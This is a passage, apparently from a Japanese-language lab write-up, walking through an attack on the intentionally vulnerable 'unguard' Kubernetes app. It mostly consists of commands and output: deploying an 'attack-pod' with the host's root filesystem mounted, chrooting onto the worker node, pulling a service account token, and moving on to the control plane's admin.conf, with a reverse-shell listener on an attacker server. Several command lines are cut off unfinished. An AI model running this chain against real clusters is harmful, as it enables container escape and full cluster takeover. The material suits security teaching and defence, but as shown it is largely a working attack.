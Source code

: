 ```bash
unguard-status-service-85fdc644bd-764bl       1/1     Running     0             2d16h
unguard-user-auth-service-dbf55bb5b-4pv7f     1/1     Running     0             2d16h

[unguard-proxy-service]: ./kubectl get po -A --kubeconfig kubeconfig
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:unguard:unguard-proxy" cannot list resource "pods" in API group "" at the cluster scope

[unguard-proxy-service]: ./kubectl get no --kubeconfig kubeconfig
Error from server (Forbidden): nodes is forbidden: User "system:serviceaccount:unguard:unguard-proxy" cannot list resource "nodes" in API group "" at the cluster scope
```

このコンテナの持つ権限では、`unguard` namespace の Pod は取得できますが、クラスタ全体のPod は取得できません。またノードの情報も取得できません。

## 攻撃用コンテナ作成

さらなる権限を得るため、クラスタに攻撃用コンテナの作成を試みます。

```bash
[unguard-proxy-service]: echo '
apiVersion: v1
kind: Pod
metadata:
  name: attack-pod-1
  namespace: unguard
spec:
  containers:
  - name: ubuntu-container
    image: ubuntu
    command: ["sleep", "infinity"]
    volumeMounts:
    - name: host-system
      mountPath: /host-system
  volumes:
  - name: host-system
    hostPath:
      path: /
      type: Directory
' > pod.yaml
```

Pod のマニフェストファイルを作成し、クラスタにデプロイします。

```bash
[unguard-proxy-service]: ./kubectl apply -f pod.yaml --kubeconfig kubeconfig
pod/attack-pod-1 created

[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
attack-pod-1                                  1/1     Running     0          9s     10.0.0.16    kind-worker          <none>           <none>
```


[attack-server]: ./curlshell.py --listen-port 1234
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: cd /tmp/
[unguard-proxy-service]: curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
[unguard-proxy-service]: chmod +x kubectl
[unguard-proxy-service]: echo "
[unguard-proxy-service]: ./kubectl auth whoami --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig | grep unguard
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-1 -- bash
[attack-pod-1]: cat /etc/hostname
[attack-pod-1]: ls /
[attack-pod-1]: ls /host-system
[attack-pod-1]: chroot /host-system bash
[worker-node]: cat /etc/hostname
[worker-node]: cd /tmp/
[worker-node]: crictl ps
[worker-node]: crictl inspect 9280e4f6f7f8f | grep -A 2 -m 1 /var/run/secrets/kubernetes.io/serviceaccount
[worker-node]: sa_path=/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66
[worker-node]: echo "
[worker-node]: kubectl auth whoami --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig kind-control-plane -o yaml
[worker-node]: exit
[attack-pod-1]: exit
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: ./kubectl apply -f pod2.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-2 -- bash
[attack-pod-2]: cat /etc/hostname
[attack-pod-2]: ls /
[attack-pod-2]: chroot /host-system bash
[control-plane]: cat /etc/hostname
[control-plane]: ls /etc/kubernetes/
[control-plane]: kubectl auth whoami --kubeconfig /etc/kubernetes/admin.conf
[control-plane]: kubectl get pod -A --kubeconfig /etc/kubernetes/admin.conf